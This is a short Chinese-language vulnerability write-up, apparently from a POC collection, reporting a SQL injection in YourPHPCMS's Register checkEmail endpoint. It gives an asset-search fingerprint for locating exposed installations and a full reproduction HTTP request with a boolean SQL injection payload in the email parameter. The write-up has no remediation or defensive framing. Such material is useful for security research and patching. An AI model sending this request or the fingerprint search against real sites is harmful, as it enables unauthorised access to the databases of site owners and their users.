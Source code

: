 # YourPHPCMS Register_checkEmail存在sql注入漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.84);">YourPHPCMS Register_checkEmail存在sql注入漏洞</font>

# <font style="color:rgba(0, 0, 0, 0.84);">二、影响版本</font>
+ YourPHPCMS

# 三、资产测绘
```rust
header="YP_onlineid"
```

![1732274823092-2e4e8c5d-0bf0-4096-b2f6-966c88ac1dff.png](./img/Uobm7bh1TOAklZ7N/1732274823092-2e4e8c5d-0bf0-4096-b2f6-966c88ac1dff-887874.png)

# 四、漏洞复现
```rust
GET /index.php?g=User&m=Register&a=checkEmail&userid=1&email=-69710348@nwcrb.com'+or+'1'='2" HTTP/1.1
Host: 
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate, br, zstd
```

![1732274798163-92c86972-4ab2-45b1-8ed0-efdd82c98664.png](./img/Uobm7bh1TOAklZ7N/1732274798163-92c86972-4ab2-45b1-8ed0-efdd82c98664-429686.png)



> 更新: 2024-11-27 10:00:37  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/sgms1fg0nfgaavx3>